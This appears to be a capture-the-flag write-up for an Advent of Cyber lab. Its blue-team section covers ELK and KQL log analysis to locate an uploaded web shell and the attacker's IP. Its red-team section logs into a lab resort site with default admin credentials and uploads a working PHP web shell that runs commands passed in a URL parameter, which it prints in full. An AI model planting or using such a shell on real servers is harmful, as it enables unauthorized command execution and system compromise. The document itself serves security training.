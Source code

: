 # Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it.
## The story
Today's AoC challenge follows a rather unfortunate series of events for the Glitch. Here is a little passage which sets the scene for today's task:

> Late one Christmas evening the Glitch had a feeling,
> Something forgotten as he stared at the ceiling.
> 
> He got up out of bed and decided to check,
> 
> A note on his wall: ”Two days! InsnowSec”.
> 
>   
> 
> With a click and a type he got his hotel and tickets,
> 
> And sank off to sleep to the sound of some crickets.
> 
> Luggage in hand, he had arrived at Frosty Pines,
> 
> “To get to the conference, just follow the signs”.
> 
> 
> Just as he was ready the Glitch got a fright,
> 
> An  RCE  vulnerability on their website ?!?
> 
> He exploited it quick and made a report,
> 
> But before he could send arrived his transport.
> 
> 
> In the Frosty Pines  SOC  they saw an alert,
> 
> This looked quite bad, they called an expert.
> 
> The request came from a room, but they couldn’t tell which,
> 
> The logs saved the day, it was the room of…the Glitch.

## Learning Objectives

-   Learn about Log analysis and tools like  ELK.
-   Learn about KQL and how it can be used to investigate logs using  ELK.
-   Learn about  RCE  (Remote Code Execution), and how this can be done via insecure file upload.

## Topics Overview

### Operation Blue and Red

A simulation involving the defensive (Blue Team) and offensive (Red Team) roles to analyze vulnerabilities and detect threats.

### Log Analysis and ELK

The ELK stack (Elasticsearch, Logstash, Kibana) is used to parse and analyze system logs to detect anomalies or security incidents.

### Kibana Query Language (KQL)

A simplified query language used in Kibana to filter and search log entries efficiently.

### Upload Vulnerabilities

Focuses on improper handling of file uploads, which can allow attackers to upload malicious files, such as web shells.

### Weak Credentials

Exploration of risks stemming from poorly chosen or reused passwords that attackers can exploit through brute-force attacks.

### Remote Code Execution (RCE)

A critical vulnerability where attackers execute arbitrary commands on a target system, often leading to complete system compromise.

### Web Shell

A malicious script uploaded to a web server, providing attackers with remote access to execute commands on the server.

----------

## Question & Answer Section

### BLUE: Where was the web shell uploaded to?

**Answer format**: `/directory/directory/directory/filename.php`

1.  Open the Elastic page at `http://MACHINE_IP:5601`.
2.  Select the **"frostypines-resorts"** index to view logs related to Frosty Pines Resorts.
3.  Analyze logs between **11:30 and 12:00 on October 3rd, 2024**.
4.  Use the search query `message: "shell.php"` to locate entries involving the web shell.
5.  Examine frequent IP addresses in the logs. One of them executes malicious commands.

The malicious IP accesses `/media/images/rooms/shell.php`.

### BLUE: What IP address accessed the web shell?

The malicious IP identified is **10.11.83.34**.

----------

### RED: What is the content of the `flag.txt`?

1.  Access the Frosty Pines Resorts website at `http://frostypines.thm`:
    
    -   Modify the `/etc/hosts` file by adding `MACHINE_IP frostypines.thm` 
        
2.  Login using the following credentials:  
    **Username**: `admin@frostypines.thm`  
    **Password**: `admin`
    
3.  Navigate to the admin portal and add a new room:
    
    -   Create and upload a PHP file (`rce.php`) with the following content:
   
    ```php
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="text" name="command" autofocus id="command" size="50">
    <input type="submit" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['command'])) 
        {
            system($_GET['command'] . ' 2>&1'); 
        }
    ?>
    </pre>
    </body>
        </html>
    ```
    
5.  Inspect the network requests to locate the uploaded file URL:
    
    -   `http://frostypines.thm/media/images/rooms/rce.php`.
6.  Execute the following commands to retrieve the flag:
    
    -   Use `ls` to view files in the directory.
    -   Use `cat flag.txt` to read the content.
----------

## Conclusion

This exercise demonstrates both attack and defense methodologies. The Blue Team identifies malicious activities through log analysis, while the Red Team exploits upload vulnerabilities and weak credentials to gain access and retrieve sensitive data.
